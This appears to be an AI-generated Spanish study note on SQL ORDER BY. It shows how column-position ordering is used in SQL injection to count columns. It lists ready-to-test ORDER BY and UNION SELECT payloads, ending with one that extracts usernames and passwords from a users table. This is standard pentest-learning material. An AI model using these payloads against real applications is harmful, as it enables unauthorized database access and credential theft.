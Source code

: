 # Order by

---

`ORDER BY` sirve para **ordenar** los resultados de una consulta según una o varias columnas.

* `ORDER BY columna` → ordena por el contenido de `columna`. Por defecto `ASC` (ascendente).
* `ORDER BY columna DESC` → ordena de forma descendente.
* También se puede usar por **posición**: `ORDER BY 1` (primera columna del `SELECT`), `ORDER BY 2` (segunda), etc.

---

Tabla `products`:

| id | name       | category | price | released |
| -- | ---------- | -------- | ----- | -------- |
| 1  | Teddy Bear | Gifts    | 20    | 1        |
| 2  | Toy Car    | Toys     | 15    | 1        |
| 3  | Mug        | Gifts    | 8     | 0        |
| 4  | Chocolate  | Gifts    | 5     | 1        |
| 5  | Board Game | Toys     | 30    | 1        |

### Consultas y resultados

* `SELECT id, name, price FROM products ORDER BY price ASC;` → ordena por `price` (columna explícita).

* `SELECT id, name, price FROM products ORDER BY 2;` → ordena por la **segunda columna del SELECT**, es decir `name`.

Resultados (para `ORDER BY 2`):

| id | name       | price |
| -- | ---------- | ----- |
| 5  | Board Game | 30    |
| 4  | Chocolate  | 5     |
| 3  | Mug        | 8     |
| 1  | Teddy Bear | 20    |
| 2  | Toy Car    | 15    |

---

## `ORDER BY n` para contar columnas

* `ORDER BY n` se refiere a la **posición** `n` en la lista de columnas del `SELECT` (no a la tabla en sí).
* Si la consulta original tiene, por ejemplo, 3 columnas (`SELECT a, b, c ...`) y probás `ORDER BY 4`, el motor devolverá un **error** porque no existe la columna en la posición 4.
* En una inyección SQL, iterás `ORDER BY 1`, `ORDER BY 2`, `ORDER BY 3`, ... hasta que el `ORDER BY N` produce error. El primer `N` que falla indica que hay `N-1` columnas.

**Importante:** esto cuenta las columnas del `SELECT` que la aplicación construye, no necesariamente todas las columnas que tiene la tabla (salvo que el `SELECT` use `*`, en cuyo caso coinciden).

---

## 4) Ejemplo práctico (SQLi)

Imaginá que la app ejecuta internamente:

```sql
SELECT id, name, price FROM products WHERE id = <INPUT>
```

Si inyectás en `INPUT`:

* `1' ORDER BY 1--` → OK
* `1' ORDER BY 2--` → OK
* `1' ORDER BY 3--` → OK
* `1' ORDER BY 4--` → ERROR (no existe la 4ª columna)

Resultado: la consulta tiene 3 columnas.

**Si la consulta original fuera `SELECT * FROM products ...`**, el `ORDER BY` por posición se refiere a la expansión de `*` (todas las columnas de la tabla), por lo que el conteo te dirá cuántas columnas tiene la tabla en ese contexto.

---

## 5) Payloads listos para probar

* Parámetro **numérico** (sin comillas):

```
1 ORDER BY 1--
1 ORDER BY 2--
1 ORDER BY 3--
1 ORDER BY 4--
```

* Parámetro **string** (necesita cerrar comilla):

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
' ORDER BY 4--
```

* Alternativa con `UNION SELECT` (cuando no ves errores):

```
' UNION SELECT NULL--            -- prueba 1 columna
' UNION SELECT NULL, NULL--      -- prueba 2 columnas
' UNION SELECT NULL, NULL, NULL-- -- prueba 3 columnas
```

Cuando el `UNION` deje de fallar sabrás el número de columnas.

---

## 6) Advertencias y matices

* Si la aplicación **suprime errores**, `ORDER BY` no mostrará fallo visible. Usa `UNION` o inyección ciega (time/boolean).
* Si la consulta original ya contiene un `ORDER BY`, inyectar otro puede romper la sintaxis.
* Si el input se utiliza en otra parte del SQL (p. ej. dentro de una subquery), `ORDER BY` puede no referirse a la lista de columnas que esperás.
* En algunas bases o APIs la referencia por posición puede comportarse ligeramente distinto; la técnica es ampliamente válida en MySQL, PostgreSQL, MSSQL y Oracle en su forma básica.

---

## 7) Ejemplo final: usar el número de columnas para `UNION` y exfiltrar

Si descubriste que el `SELECT` tiene 3 columnas, podés probar:

```sql
' UNION SELECT NULL, NULL, CONCAT(username,0x3a,password) FROM users--
```

Ajustá la columna que contiene texto para que la app la muestre (por ejemplo, si solo la 2ª columna aparece en la página, pon el payload en la 2ª posición: `NULL, payload, NULL`).

---

Si querés, lo subo al lienzo como archivo separado (por ejemplo `theory/ORDER_BY_SQLi.md`) y te genero un bloque listo para copiar en tu repo. ¿Querés que lo guarde así?
